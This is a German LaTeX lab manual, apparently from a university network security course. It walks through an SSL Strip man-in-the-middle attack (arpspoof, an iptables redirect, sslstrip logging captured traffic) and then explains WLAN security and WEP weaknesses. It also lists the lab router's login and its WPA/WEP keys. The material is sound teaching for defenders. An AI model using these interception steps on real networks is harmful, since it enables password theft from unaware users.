Ziel des SSL Strip ist das Mitlesen und Verändern von Datenpaketen, die über das Internet versandt werden. Gerade das Ausspähen von Passwörtern wird oft auf diese Weise durchgeführt.

\section{Erklärung}
Beim SSL Strip macht man sich die Unwissenheit und Unaufmerksamkeit der meisten Internetbenutzer zu Nutze. Den Unterschied zwischen dem in Kapitel \enquote{Fachbegriffe} erläuterten HTTP und HTTPS kennen nicht viele und noch weniger achten beim Surfen im Internet darauf, wie die URL-Leiste ausschaut. Der Angreifer verwandelt also sämtliche https-Links in http-Links und kann dann den Datenverkehr ohne rechenintensives Entschlüsseln der Nachrichten leicht mitlesen.

Da es bereits viele Webserver gibt, die nur verschlüsselte Aufrufe zulassen, wird in diesem Tutorial zusätzlich auf einer ARP Spoofing Attacke aufgebaut (vergleiche Kapitel \ref{chapter_arp_spoofing} \enquote{ARP Spoofing}). Es wird also zuerst ein MITM-Angriff gestartet, bei dem sämtliche ARP-Requests auf den Angreifer umgeleitet werden. Diese Aufrufe erfolgen unverschlüsselt mit Hilfe der veränderten http-Links. Der Angreifer kann dann die Nachricht auslesen und sie im Anschluss über den verschlüsselten https-Link an den Webserver weiterleiten. In Abbildung \ref{fig:sslstrip} ist vergleichsweise ein normaler Verbindungsaufbau und ein Verbindung im Zuge eines SSL Strip Angriffes dargestellt.

\begin{figure}
	\centering
	
\includegraphics[width=\textwidth]{images/sslstrip/SSLStrip}
	\caption{links: Normaler Aufbau einer HTTPS-Verbindung; rechts: Verbindungsaufbau während einer SSL Strip Attacke}
	\label{fig:sslstrip}
\end{figure}

\section{Vorbereitung}
Notwendige Hardware:

\begin{itemize}
	\item Kali Linux 2.0 mit Security Workbench (Rechner des Angreifers)
	\item Zweiter Rechner (beliebiges Betriebssystem) im selben Netzwerk (Rechner des Opfers)
	\item Router mit Internetverbindung
\end{itemize}

\section{Ablauf}
Das Opfer muss bei diesem Tutorial zu Beginn lediglich einmal ifconfig ausführen zum Auslesen der IP-Adresse. Die folgenden Befehle muss alle der Angreifer ausführen, bis das Opfer wieder direkt angesprochen wird.

Diese Tutorial verwendet das 2009 von Moxie Marlinspike entwickelte SSLStrip mit der aktuellen Version 0.9.2. Durch IP-Forwarding wird als Erstes das Weiterleiten von IP-Pakten mit dem folgenden Befehl aktiviert.

\begin{lstlisting}
sysctl -w net.ipv4.ip_forward=1
\end{lstlisting}

\begin{itemize}
	\item \bashCommand{sysctl} wird benutzt, um Kernelparameter zur Laufzeit zu Verändern, wenn sie unter /proc/sys aufgelistet sind
	\item \bashCommand{-w} verändert die im folgenden angegebene Variable auf den ebenfalls angegebenen Wert
\end{itemize}

Alternativ kann das IP-Forwarding auch mit folgendem Befehl gestartet werden.

\begin{lstlisting}
echo 1 > /proc/sys/net/ipv4/ip_forward
\end{lstlisting}

\bashCommand{echo <value> > <file>} schreibt den angegebenen Wert in die ebenfalls angegebene Datei, in diesem Fall wird IP-Forwarding aktiviert.

Im Anschluss wird ARP Spoofing auf das Opfer ausgeführt. Dafür muss zuerst das Gateway und das Interface aus deiner Netzwerkkonfiguration ausgelesen werden. 
\begin{lstlisting}
ifconfig
\end{lstlisting}

Nun kann das ARP Spoofing gestartet werden.

\begin{lstlisting}
arpspoof -i <interface> -t <targetIP> <gatewayIP>
\end{lstlisting}

\begin{itemize}
	\item \bashCommand{arpspoof} startet das ARP Spoofing Tool
	\item \bashCommand{-i <interface>} Name des Interfaces, in dem sich Angreifer und Opfer befinden
	\item \bashCommand{-t <targetIP>} IP-Adresse des anzugreifenden Clients
	\item \bashCommand{<gatewayIP>} IP-Adresse des Gateways im LAN
\end{itemize}

Nun laufen mit Hilfe von ARP-Spoofing alle IP-Pakete vom Opfer über den eigenen Rechner. Die umgeleiteten HTTP-Pakete müssen nun via IPtables an das Tool SSLStrip weitergeleitet werden.

\begin{lstlisting}
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <listenPort>
\end{lstlisting}

\begin{itemize}
	\item \bashCommand{iptables} Werkzeug zur regelbasierten Konfiguration der Firewall von Linux
	\item \bashCommand{-t nat} Firewall-Gruppe
	\item \bashCommand{-A PREROUTING} die Regel wird vor dem Routen des Paketes angewandt
	\item \bashCommand{-p tcp}  nur TCP-Pakete sind betroffen
	\item \bashCommand{--destination-port 80} nur Pakete auf Ziel-Port 80(HTTP) sind betroffen
	\item \bashCommand{-j REDIRECT} Pakete sollen weitergeleitet werden
	\item \bashCommand{--to-port <listenPort>} Port, auf welchen auf Nachrichten gewartet werden soll -- dieser Port wird im Anschluss bei SSLStrip benötigt
\end{itemize}

Jetzt muss SSLStrip gestartet werden. Dieses durchsucht alle Nachrichten auf solche, die über den angegebenen Port  verschickt wurden. Diese Nachrichten werden zuerst in einer Log-Datei gespeichert und danach in einer HTTPS-Nachricht weitergeleitet.

\begin{lstlisting}
sslstrip -a -k -l <listenPort> -w <logpath>
\end{lstlisting}

\begin{itemize}
	\item \bashCommand{sslstrip} Aufrufen des Paketes zur Durchführung des SSLStrip
	\item \bashCommand{-a} SSL- und HTTP-Traffic werden aufgezeichnet
	\item \bashCommand{-k} bestehende SSL-Verbindungen sollen beendet und neu aufgebaut werden
	\item \bashCommand{-l <listenPort>} Port, auf den SSLStrip auf Nachrichten warten soll -- dies muss der selbe Port sein, der auch bei IPtables angegeben wurde
	\item \bashCommand{-w <logpath>} Pfad, unterwelchem die ausgetauschten Nachrichten im Klartext gespeichert werden sollen
\end{itemize}

Jetzt muss das Opfer eine http-Seite öffnen, von der aus er auf eine https-Seite weitergeleitet wird. Es hat sich dabei "'www.radio-in.de"' und das Öffnen "'Intern neu"' am Ende der Seite bewährt.

\section{Gegenmaßnahmen}

Um sicherzustellen, dass nur verschlüsselte Seiten aufgerufen werden, kann der Mechanismus HTTP Strict Transport Security (HSTS) verwendet werden. Dabei wird dem Browser des Anwenders mitgeteilt, dass für eine bestimmte Dauer nur verschlüsselte Verbindungen mit dieser Domain aufgebaut werden sollen. Plötzliche unverschlüsselte Verbindungen können so vom Browser erkannt und abgelehnt werden. Damit HSTS vor Spoofing schützen kann, muss jedoch die Seite vor Beginn des Angriffes mindestens einmal durch den Client aufgerufen worden sein.

%!TEX root = ../document.tex

\chapter{WLAN-Sicherheit}

Der Aufbau von WLAN-Netzen ist seit Jahren bzw. Jahrzehnten eine bequeme Alternative zu Verkablung per Ethernetkabel, um Client Zugang zu einem internen Netz oder dem World Wide Web zu gewähren. \\
Dank der Einführung von schnellen heimischen Internetzugängen wird heutzutage in fast jedem Haushalt ein aktives WLAN-Netz betrieben. Und auch im Unternehmensumfeld wird oftmals WLAN zur Erhöhung der Arbeitsplatzflexibilität eingesetzt. \\
Um die Sicherheit in einem solchen Drahtlosnetz zu gewährleisten wurden Algorithmen und Protokolle entwickelt die WLAN so sicher wie eine direkte Verbindung per Kabel machen sollten. Besonders im privaten Umfeld wurden/werden hier oft WEP, WPA-PSK und WPA2-PSK genutzt wohingegen im Unternehmen oftmals eine Enterprise-Variante von WPA/WPA2 zum Einsatz kommt. \\
In diesem Kapitel werden nachfolgend die eben genannten Begriffe im Detail beleuchtet sowie deren Schwachstellen herausgearbeitet. Basierend auf diesen Schwachstellen werden Angriffe präsentiert und in Anleitungen der Ablauf erläutert. 

\section{Erklärung}

In der folgenden Abbildung ist das Szenario so abgebildet, wie es in den meisten nachfolgenden
Angriffen angenommen wird. Es gibt ein Netzwerkgerät (Access Point), welches das Netzwerk
aufbaut und mindestens einen Client, der mit diesem Netzwerk verbunden ist. Wir befinden
uns in der Rolle des Angreifers und versuchen im Großteil der Anwendungsfälle Zugriff auf
das Netzwerk zu bekommen.
Angriffe auf ein Wireless Network laufen häufig nach einem bestimmten Schema ab. Dazu
werden Daten, die zwischen Client und Netzwerkgerät hin- und hergeschickt werden,
gesammelt. Diese Informationen werden dann beim Angreifer in einer gewissen Art und
Weise verarbeitet. Ist diese Verarbeitung, egal wie komplex diese ist, erfolgreich, so hat der
Angreifer häufig Zugriff auf das Netz.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.8\textwidth]{images/WLAN/WLANSzenario.png}
	\caption{WLAN-Szenario}
	\label{fig:WLAN-Szenario}
\end{figure}

\section{Vorbereitung}

Voraussetzungen für die weiteren Übungen:

\begin{itemize}
	\item Alfa USB WLAN-Adapter, kann vom Labor bezogen werden
	\item WLAN-Router eingestellt auf das benötigte Verfahren (z.B. WEP,WPA), Archer C7 kann vom Labor bezogen werden
	\item Zwei Workstations/Notebooks
	\item Natives Kali Linux oder vom Labor bereitgestellter USB-Stick mit Kali Linux
	\item Grundlegende Kenntnisse mit Linux
\end{itemize}
Weitere Informationen zur verwendeten Hardware, die auch vom Netzwerklabor bezogen werden kann, sind im Kapitel \ref{hw}  dargestellt. 

\section{Hardware}\label{hw}
Grundsätzlich lässt sich für die Durchführung jede beliebige Hardware einsetzen. Lediglich bei den einzusetzenden WLAN-Interfaces sollte auf Kompatibilität zu den verwendeten Tools geachtet werden.\\
Nachfolgend werden die von den Autoren empfohlenen Komponenten genauer beleuchtet. 
 
\subsection{TP-Link Archer C7}
 Der WLAN-Router Archer C7 von TP-LINK eignet sich perfekt für die Verwendung bei den Tutorials der Security-Workbench. Dank simultanem Dualband kann der Router Übertragungsgeschwindigkeiten bis zu 450 Mbit/s auf 2,4GHz und bis zu 1300 Mbit/s auf 5GHz erreichen. Weitere Informationen findet man auf der Herstellerwebseite \url{http://www.tp-link.de/products/details/cat-9_Archer-C7.html}.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.5\textwidth]{images/WLAN/ArcherC7.jpg}
	\caption{Archer C7}
	\label{fig:Archer C7}
\end{figure}

\subsubsection{Betriebssystem und Software}
Der Archer C7 wird nicht mehr mit dem Originalbetriebssystem von TP-Link betrieben, stattdessen wird die freie Software OpenWrt in der Version 15.05 eingesetzt. Dies ermöglicht es, dass gleichzeitig mehrere WLAN-Netze mit verschiedenen SSIDs und Konfigurationen auf demselben WLAN-Interface des Router betrieben werden können. Dadurch können komfortabel alle Tutorials mit demselben Router durchgeführt werden, ohne diesen für jedes Tutorial erst konfigurieren zu müssen.\\
Zudem bietet OpenWrt die Möglichkeit von zusätzlichen Softwarepaketen. So kann beispielsweise Aircrack-ng auf dem Router installiert werden, gleiches gilt für FTP- oder HTTP-Server.

\subsubsection{Installation RADIUS-Server}
Besonders zu erwähnen ist die Möglichkeit einen RADIUS-Server für die Authentifikation in Enterprise-Netzen zu installieren. Da dies die Konfiguration mehrerer Pakete erfordert, folgt eine Kurzanleitung (Youtube Anleitung verfügbar unter \url{https://www.youtube.com/watch?v=PvUqMFvTOn8)}):
\begin{enumerate}
	\item {Update des Softwarecenters}\\
	\colorbox{altgray}{\lstinline|opkg update|}
	\item {Entfernen des Standard WLAN-Pakets}\\
	\colorbox{altgray}{\lstinline|opkg remove wpad-mini|}
	\item { Installation eines mächtigeren WLAN-Deamons}\\
	Der Deamon wird benötigt, um WPA/WPA2-Netze mit RADIUS-Server-Authentifikation zu erstellen. \\
	 \colorbox{altgray}{\lstinline|opkg install wpad|}
	\item {(Optional:) Installation eines Texteditors}\\ \colorbox{altgray}{\lstinline|opkg install nano|}
	\item {Installation von Freeradius2-Komponenten}\\
	\colorbox{altgray}{\lstinline|opkg install [Pakete]|}:\\
	Schritt 1: Installation von\\
	\textit{freeradius2 freeradius2-mod-always freeradius2-mod-attr-filter freeradius2-mod-attr-rewrite freeradius2-mod-chap freeradius2-mod-detail freeradius2-mod-eap freeradius2-mod-eap-gtc freeradius2-mod-eap-md5 freeradius2-mod-eap-mschapv2 freeradius2-mod-eap-peap freeradius2-mod-eap-tls freeradius2-mod-eap-ttls freeradius2-mod-exec freeradius2-mod-expiration freeradius2-mod-expr freeradius2-mod-files freeradius2-mod-ldap freeradius2-mod-logintime freeradius2-mod-mschap freeradius2-mod-pap}\\
	Schritt 2: Installation von\\
	\textit{freeradius2-mod-passwd freeradius2-mod-preprocess freeradius2-mod-radutmp freeradius2-mod-realm freeradius2-mod-sql freeradius2-mod-sql-mysql freeradius2-mod-sql-pgsql freeradius2-mod-sql-sqlite freeradius2-mod-sqlcounter freeradius2-mod-sqllog freeradius2-utils freeradius2-democerts}
	\item {Wechsel in das Verzeichnis \colorbox{altgray}{\lstinline|/etc/freeradius2/|}}\\
	\colorbox{altgray}{\lstinline|cd /etc/freeradius2/|}
	\item {Editieren der Userkonfiguration: \colorbox{altgray}{\lstinline|nano users|}}\\
	Anlegen eines neuen Nutzers am Ende der Datei: \textit{username Cleartext-Password := "Password"}
	\item {Editieren der Clientkonfiguration: \colorbox{altgray}{\lstinline|nano clients.conf|}}
	\begin{itemize}
		\item Im Abschnitt \textit{Client localhost} anpassen der \textit{ipaddr = 127.0.0.1} auf Router-IP.
		\item Anpassen des \textit{secrets = testing123} (Bei der Erstellung eines Enterprise-APs anzugeben)
	\end{itemize}

	\item {Editieren der Serverkonfiguration: \colorbox{altgray}{\lstinline|nano radiusd.conf|}}
	\begin{itemize}
		\item Unter \textit{listen} die Zeile \textit{interface = br-lan} auskommentieren.
		\item Unter \textit{logs} den Wert von  \textit{auth = } auf \textit{yes} setzen.
	\end{itemize}

	\item {Installieren von Openssl} \\
	\colorbox{altgray}{\lstinline|opkg install openssl-util|}
	\item {Löschen der Demozertifikate}
	\begin{itemize}
		\item Wechsel in das Verzeichnis \textit{certs}: \colorbox{altgray}{\lstinline|cd /etc/freeradius2/certs|}
		\item \colorbox{altgray}{\lstinline|rm ca.pem|}
		\item \colorbox{altgray}{\lstinline|rm server.pem|}
	\end{itemize}

	\item {Erstellen einer neuen CA und eines Serverzertifikats}\\
	Es können beliebige Daten bei den Zertifikaten verwendet werden. Die verwendeten Passwörter werden später benötigt. Falls ein Challenge-Passwort gefordert wird, ist das Feld leer zulassen. \\
	\textit{ACHTUNG:} Unterschiedliche Common Names bei CA- und Serverzertifikat angeben.
	\begin{itemize}
		\item \colorbox{altgray}{\lstinline|openssl genrsa -des3 -out ca.key 2048|}
		\item \colorbox{altgray}{\lstinline|openssl req -new -x509 -days 9999 -key ca.key -out ca.pem|}
		\item \colorbox{altgray}{\lstinline|openssl genrsa -des3 -out server.key 2048|}
		\item \colorbox{altgray}{\lstinline|openssl req -new -key server.key -out server.csr|}
		\item \colorbox{altgray}{\lstinline|openssl x509 -req -days 9999 -in server.csr -CA ca.pem|} \\  	 \colorbox{altgray}{\lstinline|-CAkey ca.key -set_serial 01 -out server.pem|}
	\end{itemize}


	\item {Wechsel nach \colorbox{altgray}{\lstinline|/etc/freeradius2/|} }\\
	\colorbox{altgray}{\lstinline|cd /etc/freeradius2/|}
	\item {Editieren der EAP-Konfiguration: \\
	\colorbox{altgray}{\lstinline|nano eap.conf|}}
	\begin{itemize}
		\item Unter \textit{tls} bei \textit{private\_key\_password} das Passwort aus der Keyerstellung angeben.
		\item \textit{private\_key\_file} Name des Keys anpassen auf \textit{server.key}
	\end{itemize}

	\item {Reboot des Routers} \\
	\colorbox{altgray}{\lstinline|reboot|}
	\item {Enable und Start des Servers}
	\begin{itemize}
		\item \colorbox{altgray}{\lstinline|/etc/init.d/radiusd enable|}
		\item \colorbox{altgray}{\lstinline|/etc/init.d/radiusd start|}
	\end{itemize}

\end{enumerate}
Nach Durchführung der Installation und Konfiguration kann in der Weboberfläche des Routers ein Enterprise-AP erstellt werden und es müssen die IP des Routers und das festgelegte Secret angegeben werden.

\subsubsection{Eingerichtete WLAN-Netze und Passwörter}
Für die Anmeldung auf der Routeroberfläche wird folgender Login benötigt:
\begin{itemize}
	\item User: \textit{root}
	\item Passwort: \textit{toor}
\end{itemize}
Nachfolgend werden alle eingerichteten WLAN-Netze mit den dazugehörigen Keys/PSKs aufgelistet:
\begin{enumerate}
	\item {WEP}
	\begin{itemize}
			\item HackMe\_WEP\_Open: BC6AFE583E
			\item HackMe\_WEP\_Shared: BC6AFE583E
			\item HackMe\_WEP\_Open\_5GHz: BC6AFE583E
			\item HackMe\_WEP\_Shared\_5GHz: BC6AFE583E
	\end{itemize}
	\item {WPA}
	\begin{itemize}
		\item HackMe\_WPA: HackMeHa
		\item HackMe\_WPA2: HackMeHa
		\item HackMe\_DoS: HackMeHa
		\item HackMe\_WPA\_5GHz: HackMeHa
		\item HackMe\_WPA2\_5GHz: HackMeHa
		\item HackMe\_DoS\_5GHz: HackMeHa
	\end{itemize}
\end{enumerate}

\subsection{Alfa AWUS051NH 802.11abgn USB Adapter Dual-Band 2.4GHz/5GHz}

Der Hauptvorteil der Alfa USB-Adapters ist die Plug'n'Play-Fähigkeit unter Linux. Er eignet sich als leistungsstarke externe USB-WLAN Karte für die hier durchgeführten Versuche. Der Adapter ist sowohl kompatibel mit aktuellen Verfahren wie WPA und WPA2, als auch mit veralteten Verfahren wie WEP. Der Adapter unterstützt die Verwendung des Monitor-Mode und die Packet-Injection. Die Unterstützung dieser beiden Funktionen ist in den nachfolgenden Tutorials zwingend notwendig. Er lässt sich mit Windows, Mac OS und gängigen Linux Distributionen verwenden.
Weitere Informationen findet man auf der Herstellerwebseite unter \url{https://www.alfa.com.tw/products_show.php?pc=67&ps=241}.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.5\textwidth]{images/WLAN/AlfaUSB-Adapter.jpg}
	\caption{Alfa USB-Adapter}
	\label{fig:Alfa USB-Adapter}
\end{figure}
\newpage

\section{WEP}

WEP (Wired Equivalent Privacy) ist ein Standard für die Verschlüsselung und Authentifizierung
von WLANs aus dem Jahr 1999. Ziel war es, Funknetzwerke genauso sicher, wie kabelgebundene Netzwerke zu machen. Um dieses Ziel zu erreichen, bietet WEP Mechanismen für die Authentifizierung, Verschlüsselung und Integritätsprüfung. WEP enthält grundlegende Design-Schwächen und gilt seit 2001 als geknackt. Die Berechnung des Schlüssels aus einigen Minuten an aufgezeichneten Daten dauert normalerweise nur wenige Sekunden. Daher sollten WLAN-Installationen die sicherere WPA2-Verschlüsselung verwenden.

\subsection{Unterschied von Open System Authentication und Shared Key Authentication}

Für die Authentifizierung der Clients am Access Point sieht WEP zwei Varianten vor, die Open System Authentication oder die Shared Key Authentication.

	\subsubsection{Open System Authentication}
	Die Open System Authentication ist die Standard-Authentifizierung bei WEP. Die Open System Authentication ist die Standard-Authentifizierung.

	Ist der Accesspoint für keine Verschlüsselung konfiguriert, findet praktisch keine Authentifizierung statt und jeder Client kann sich mit dem WLAN verbinden.
	Ist der Accesspoint für Verschlüsselung konfiguriert (in diesem Fall WEP), gibt es zwei Arten: \\
	\begin{itemize}
	\item Logisch: Der WEP-Schlüssel dient gleichzeitig zur Authentifizierung und jeder Client mit korrektem WEP-Schlüssel bekommt Zugang zum Netz.

	\item Technisch: Es findet ein Austausch von Authentifizierungsnachrichten statt und der Client wird authentifiziert. Stimmen WEP-Key auf Accesspoint und Client überein, ist Kommunikation möglich. Stimmen diese nicht überein, ist der Client zwar authentifiziert, kann jedoch keine Daten mit dem Netz austauschen. \\
	\end{itemize}

	\subsection{Shared Key Authentication}
	Die Shared Key Authentication setzt das WLAN-Passwort zur Authentifizierung der WLAN Clients ein. Die Authentifizierung erfolgt per Challenge-Response-Verfahren. Das bei WEP verwendete Verschlüsselungsverfahren ist RC4, eine Datenstromchiffrierung. \\
		\begin{figure}[H]
			\centering
			
\includegraphics[width=0.8\textwidth]{images/WLAN/WEPchres.jpg}
			\caption{Challenge/Response bei WEP}
			\label{fig:Challenge/Response bei WEP}
		\end{figure}
		
	\noindent Nach der Authentifizierung und Verbindung wird der zuvor ausgetauschte WEP-Schlüssel für die Verschlüsselung der Daten mit RC4 verwendet. Im ersten Moment erscheint die shared-Variante sicherer als die open-Variante, da diese keine Authentifizierung anbietet. Das ist allerdings irreführend, da es möglich ist, den Vorgang des Schlüsselaustauschs abzuleiten, der für den Handshake verwendet wird, indem er die Challenge-Frames in der Shared Key-Authentifizierung erfasst. Sollte also die Privatsphäre ein entscheidender Punkt sein, wäre es ratsamer die open-Variante zu nutzen. Allerdings sei hier noch einmal darauf hingewiesen, dass beide Verfahren als schwach zu bezeichnen sind.

	\subsection{WEP-Verschlüsselung}

	Das WEP-Protokoll verwendet den RC4-Algorithmus als Pseudozufallszahlengenerator (PRNG) bei der Erzeugung eines Keystreams, der einen Schlüssel und einen Initialisierungsvektor (IV) als Eingabe erhält. Für jede zu schützende Nachricht M wird ein neuer 24 Bit langer Initialisierungsvektor gebildet und mit einem Schlüssel K verknüpft, der allen Stationen im WLAN bekannt ist. Das Ergebnis dient als Eingabe für den RC4-Algorithmus, welcher daraus einen Keystream erzeugt. Zusätzlich wird mittels Zyklischer Redundanzprüfung (ZRP, engl. CRC) ein vermeintlich sicherer „Integritätsprüfwert“ (Integrity Check Value – ICV) berechnet und an die Nachricht M angehängt (||). Die resultierende Nachricht (M||ICV) wird mit dem Keystream (RC4(IV||K)) des RC4-Algorithmus XOR-verknüpft und der Initialisierungsvektor IV wird dem resultierenden Ciphertext vorangestellt. Die unteren Abbildungen verdeutlichen Verschlüsselung und Entschlüsselung.

	\begin{figure}[H]
		\centering
		
\includegraphics[width=0.9\textwidth]{images/WLAN/WEPKodierung.JPG}
		\caption{WEP Verschlüsselung}
		\label{fig:WEP Verschlüsselung}
	\end{figure}

	\begin{figure}[H]
		\centering
		
\includegraphics[width=0.9\textwidth]{images/WLAN/WEPDekodierung.JPG}
		\caption{WEP Entschlüsselung}
		\label{fig:WEP Entschlüsselung}
	\end{figure}

	\noindent Ein mit WEP verschlüsseltes Datenpaket besteht aus dem geheimen WEP-Schlüssel mit 40 oder 104 Bit Länge (WEP64 / WEP128), einer 32 Bit Prüfsumme der unverschlüsselten
	Daten und, wie oben bereits erwähnt, einem 24 Bit langem Initialisierungsvektor, den WEP-Schlüssel zum Gesamtschlüssel auf 64 Bit oder 128 Bit verlängert und einmal pro
	Datenpaket inkrementiert (-1) wird. \\
	Das gesamte Datenpaket besteht aus den Daten und der 32 Bit-Prüfsumme. Dies wird
	mit der IV-WEP-Schlüssel-Kombination verschlüsselt.

			\begin{figure}[H]
				\centering
				
\includegraphics[width=0.7\textwidth]{images/WLAN/WEPpakete.png}
				\caption{WEP Pakete}
				\label{fig:WEP Pakete}
			\end{figure}

\subsection{Schwächen bei WEP}
Der IV wird bei jedem Frame fortlaufend inkrementiert, weshalb er irgendwann wiederholt
wird. Da der IV im Klartext übertragen wird, entspricht die effektive Verschlüsselung nur 40 bzw. 104 Bit, obwohl häufig von 64 oder 128 Bit gesprochen wird. Die Authentifizierung, Verschlüsselung und Integritätsprüfung verwenden zudem den gleichen Schlüssel. \\
Ein Angriff auf die WEP-Verschlüsselung erfolgt üblicherweise durch das Aufzeichnen einer
ausreichenden Menge an Datenverkehr. Außerdem muss sich in diesem Zusammenhang auch jemand in dem WLAN befinden, dass gehackt werden soll, um das Verbinden mit dem Access Point aufzunehmen.
